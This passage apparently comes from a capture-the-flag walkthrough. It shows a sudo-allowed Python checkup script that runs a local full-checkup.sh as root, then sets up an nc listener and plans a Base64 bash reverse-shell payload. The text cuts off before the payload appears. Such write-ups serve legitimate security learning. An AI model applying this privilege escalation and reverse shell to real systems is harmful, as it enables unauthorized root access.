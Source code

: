 ![Subdomain scripts repository](subdomain-scripts-repository.png)

This is the repository corresponding to the `/opt/scripts` folder!

If we check `system-checkup.py`, we see that the `docker-inspect` argument
actually corresponds to the `docker inspect` command, and `docker-ps` to
`docker ps`. The `full-checkup` command tries to execute the `full-checkup.sh`
script located in the current directory, and prints an error if it fails.

## Privilege escalation (Sudo permissions)

Since we can execute `/opt/scripts/system-checkup.py` as `root` and that the
`full-checkup` argument runs the `full-checkup.sh` script in the current
directory as `root`, we simply have to create a `full-checkup.sh` file to
execute it as `root`!

### Preparation

The goal is to obtain a reverse shell.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9002"
```

Then, I'll choose the Base64 encoded version of the 'Bash -i' payload from
[RevShells](https://www.revshells.com/) configured to obtain a `/bin/bash`
shell.

### Exploitation

Let's create a `full-checkup.sh` file in the current directory containing our
payload:
